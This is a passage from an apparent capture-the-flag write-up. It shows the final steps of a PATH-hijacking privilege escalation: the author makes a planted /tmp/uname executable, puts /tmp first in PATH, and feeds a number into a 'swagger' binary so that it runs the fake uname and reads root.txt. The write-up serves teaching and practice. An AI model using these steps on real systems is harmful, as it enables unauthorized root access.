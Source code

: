 ```
chmod 777 /tmp/uname
```

Next, I added /tmp into the front of my PATH:

```
PATH=/tmp:$PATH
```

<img style="float: left;" src="screenshots/screenshot47.png">

Finally, we run `swagger` with our command from earlier:

```
./swagger | grep -oE '[0-9]+' | ./swagger
```

With that, we successfully extract and input the correct number into `swagger`, causing `uname` to be run. However, since we manipulated our PATH and placed /tmp at the front, the machine will look into /tmp first and use our created `uname` script! 

**root.txt** is then read out :smile:

<img style="float: left;" src="screenshots/screenshot48.png">
